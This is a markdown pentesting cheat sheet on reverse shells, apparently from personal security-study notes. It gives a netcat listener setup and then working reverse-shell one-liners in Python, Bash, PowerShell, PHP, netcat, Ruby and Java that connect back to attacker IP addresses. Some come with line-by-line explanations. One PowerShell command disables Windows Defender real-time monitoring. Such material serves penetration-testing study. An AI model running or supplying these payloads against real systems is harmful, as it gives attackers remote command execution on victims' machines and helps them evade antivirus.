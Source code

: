 ```yaml
---
title: Reverse Shells
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - web
  - pentesting
  - reverse-shells
---
```

# Reverse shells

??? abstract "Resources to generate reverse shells"
    - [https://www.revshells.com/](https://www.revshells.com/)
    - [Netcat for windows 32/64 bit](https://github.com/int0x33/nc.exe) 
    - [Pentesmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
    - [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) 


??? abstract "Other resources"
    See [web shells](web-shells.md)


??? abstract "All about shells"
    | **Shell Type**                       | **Description**                                                                                                                                                                                                                                   |
    | ------------------------------------ | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
    | [`Reverse shell`](reverse-shells.md) | Initiates a connection back to a "listener" on our attack box.                                                                                                                                                                                    |
    | [`Bind shell`](bind-shells.md)       | "Binds" to a specific port on the target host and waits for a connection from our attack box.                                                                                                                                                     |
    | [`Web shell`](web-shells.md)         | Runs operating system commands via the web browser, typically not interactive or semi-interactive. It can also be used to run single commands (i.e., leveraging a file upload vulnerability and uploading a `PHP` script to run a single command. |


Victim's machine Initiates a connection back to a "listener" on our attacking machine box. 

For this attack to work, first  we set the listener in the attacking machine using netcat.

```shell-session
nc -lnvp 1234
```

After that, on the victim's machine, you can launch the reverse shell connection. 

A Reverse Shell is handy when we want to get a quick, reliable connection to our compromised host. However, a Reverse Shell can be very fragile. Once the reverse shell command is stopped, or if we lose our connection for any reason, we would have to use the initial exploit to execute the reverse shell command again to regain our access.


## Reverse shell connections

### python

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### bash

```bash
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
```

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f

# rm /tmp/f;
# Removes the /tmp/f file if it exists, -f causes rm to ignore nonexistent files. The semi-colon (;) is used to execute the command sequentially.

# mkfifo /tmp/f;
# Makes a FIFO named pipe file at the location specified. In this case, /tmp/f is the FIFO named pipe file, the semi-colon (;) is used to execute the command sequentially.

# cat /tmp/f |
# Concatenates the FIFO named pipe file /tmp/f, the pipe (|) connects the standard output of cat /tmp/f to the standard input of the command that comes after the pipe (|).

# /bin/sh -i 2>&1 |
# Specifies the command language interpreter using the -i option to ensure the shell is interactive. 2>&1 ensures the standard error data stream (2) & standard output data stream (1) are redirected to the command following the pipe (|).

# nc $ip <port> >/tmp/f
# Uses Netcat to send a connection to our attack host $ip listening on port <port>. The output will be redirected (>) to /tmp/f, serving the Bash shell to our waiting Netcat listener when the reverse shell one-liner command is executed

```

### powershell

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

# same, but without assigning $client to the new object
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.10.10.10",1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

# powershell -nop -c 
# Executes powershell.exe with no profile (nop) and executes the command/script block (-c or -Command) contained in the quotes

# "$client = New-Object System.Net.Sockets.TCPClient(10.10.14.158,433);
# Sets/evaluates the variable $client equal to (=) the New-Object cmdlet, which creates an instance of the System.Net.Sockets.TCPClient .NET framework object. The .NET framework object will connect with the TCP socket listed in the parentheses (10.10.14.158,443). The semi-colon (;) ensures the commands & code are executed sequentially.

# $stream = $client.GetStream();
# Sets/evaluates the variable $stream equal to (=) the $client variable and the .NET framework method called GetStream that facilitates network communications. 

# [byte[]]$bytes = 0..65535|%{0}; 
# Creates a byte type array ([]) called $bytes that returns 65,535 zeros as the values in the array. This is essentially an empty byte stream that will be directed to the TCP listener on an attack box awaiting a connection.

# while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)

# Starts a while loop containing the $i variable set equal to (=) the .NET framework Stream.Read ($stream.Read) method. The parameters: buffer ($bytes), offset (0), and count ($bytes.Length) are defined inside the parentheses of the method.


# {;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i);
# Sets/evaluates the variable $data equal to (=) an ASCII encoding .NET framework class that will be used in conjunction with the GetString method to encode the byte stream ($bytes) into ASCII. In short, what we type won't just be transmitted and received as empty bits but will be encoded as ASCII text. 

# $sendback = (iex $data 2>&1 | Out-String ); 
# Sets/evaluates the variable $sendback equal to (=) the Invoke-Expression (iex) cmdlet against the $data variable, then redirects the standard error (2>) & standard input (1) through a pipe (|) to the Out-String cmdlet which converts input objects into strings. Because Invoke-Expression is used, everything stored in $data will be run on the local computer. 

# $sendback2 = $sendback + 'PS ' + (pwd).path + '> '; 
# Sets/evaluates the variable $sendback2 equal to (=) the $sendback variable plus (+) the string PS ('PS') plus + path to the working directory ((pwd).path) plus (+) the string '> '. This will result in the shell prompt being PS C:\workingdirectoryofmachine >. 

# $sendbyte=  ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}
# Sets/evaluates the variable $sendbyte equal to (=) the ASCII encoded byte stream that will use a TCP client to initiate a PowerShell session with a Netcat listener running on the attack box.

```


```powershell-session
 Set-MpPreference -DisableRealtimeMonitoring $true
```
### php

```bash
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

### netcat

```bash
nc -e /bin/sh 10.0.0.1 1234

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

### ruby

```bash
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### java

```bash
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
  

### xterm

```bash
xterm -display 10.0.0.1:1
```

